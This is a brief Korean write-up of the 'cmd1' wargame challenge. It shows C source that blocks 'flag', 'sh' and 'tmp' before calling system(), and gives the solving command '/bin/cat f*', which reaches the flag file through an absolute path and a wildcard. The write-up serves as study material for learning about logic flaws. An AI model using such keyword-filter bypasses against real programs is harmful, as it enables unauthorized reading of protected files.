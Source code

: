 ```yaml
---
sort: 14
---
```


# cmd1

home 디렉토리에 cmd1.c파일에 소스코드가 들어있다.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

strstr을 통해서 flag, sh, tmp를 검열하는 모습이다.<br>
그리고 PATH 환경변수를 못쓰게 만들어버린 모습이다.<br>
환경변수를 못쓰게 만들어버렸기 때문에 명령어 프로그램을 사용하려면 절대경로를 사용해야한다.<br>
whereis 명령어를 이용하면 명령어 프로그램이 어디에 있는지 확인할 수 있다.<br>
flag는 정규표현식을 이용하여 우회했다.

```bash
cmd1@pwnable:~$ cmd1@pwnable:~$ whereis cat
cat: /bin/cat /usr/share/man/man1/cat.1.gz
cmd1@pwnable:~$ ./cmd1 "/bin/cat f*"
```

```tip
## 알게 된 점

logic bug
```
